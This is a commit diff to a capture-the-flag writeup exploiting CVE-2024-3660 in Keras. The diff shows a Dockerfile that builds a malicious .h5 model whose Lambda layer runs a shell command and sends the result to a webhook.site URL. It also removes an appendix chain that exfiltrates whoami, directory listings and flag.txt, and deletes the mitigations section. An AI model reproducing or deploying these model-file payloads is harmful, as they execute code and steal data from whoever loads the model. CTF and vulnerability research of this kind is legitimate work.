

Before and after one commit to aaryanbhujang/qu3stc0nAIm1ndfl4y3rmod3lLAB, a Markdown page: writeup.md, 2 parts joined by grey strips. Shown at 83% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Refactor model code and update webhook URLs
Updated malicious model code and webhook URLs in writeup.

````diff
--- a/writeup.md
+++ b/writeup.md
@@ -102,8 +100,12 @@ docker rm -v "$cid"
 ### 3.2) ls model (list current working directory)
 
 ```dockerfile
+# Force platform so wheel architecture matches
 FROM --platform=linux/amd64 python:3.8-slim
+
 WORKDIR /code
+
+# Install curl, download and install TensorFlow wheel
 RUN apt-get update && \
     apt-get install -y curl wget && \
     curl -k -LO https://files.pythonhosted.org/packages/65/ad/4e090ca3b4de53404df9d1247c8a371346737862cfe539e7516fd23149a4/tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \
@@ -111,20 +113,26 @@ RUN apt-get update && \
     rm ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \
     rm -rf /var/lib/apt/lists/*
 
+# Create the malicious model during image build
 RUN python3 - <<'EOF'
-import os, base64, tensorflow as tf
+import tensorflow as tf
+
+
 def arbexe(x):
-    url = "https://webhook.site/REPLACE-ME?ls="
-    output = os.popen("ls -la").read().encode()
-    b64 = base64.b64encode(output).decode()
-    os.system(f"curl -G --data-urlencode 'o={b64}' '{url}'")
+    import os
+    os.system("curl https://webhook.site/4d5dabc9-02df-4212-a89b-d3cac77c7e59/?exf=$(ls)")
     return x
-model = tf.keras.Sequential([tf.keras.layers.Input(shape=(64,)), tf.keras.layers.Lambda(arbexe)])
+
+model = tf.keras.Sequential()
+model.add(tf.keras.layers.Input(shape=(64,)))
+model.add(tf.keras.layers.Lambda(arbexe))
 model.compile()
-model.save("ls.h5")
+model.save("hactf.h5")
 EOF
 
+# Default entrypoint
 ENTRYPOINT ["/bin/bash"]
+
 ```
 
 Build and extract:
@@ -228,38 +231,3 @@ Victory: Flag obtained.
 References:
 - CVE-2024-3660: Arbitrary Code Execution in Keras
 - PoC: [@aaryanbhujang/CVE-2024-3660-PoC](https://github.com/aaryanbhujang/CVE-2024-3660-PoC)
-
----
-
-## 7) Mitigations
-
-- Upgrade TensorFlow/Keras to a version that addresses model deserialization risks.
-- Disable or strictly sandbox `Lambda` layers and custom objects from untrusted models.
-- Use model formats and loading mechanisms that do not execute arbitrary Python code (e.g., saved models without custom layers, TF Lite, ONNX).
-- Validate uploads and execute model code in heavily sandboxed/isolated environments with egress controls.
-
----
-
-## Appendix A: Single-Model Chain (Optional)
-
-If you prefer one model to do everything in sequence:
-
-```python
-def arbexe(x):
-    import os, base64
-    W="https://webhook.site/REPLACE-ME"
-    def send(tag, cmd):
-        out = os.popen(cmd).read().encode()
-        b64 = base64.b64encode(out).decode()
-        os.system(f"curl -G --data-urlencode '{tag}={b64}' '{W}'")
-    send("whoami", "whoami")
-    send("ls", "ls -la")
-    send("flag", "cat flag.txt")
-    return x
-```
-
-This reduces interaction steps but may be noisier and easier to spot.
-
----
-
-Good luck and hack responsibly.
````
Also changed, not shown: other parts of writeup.md (+16 -23 lines).
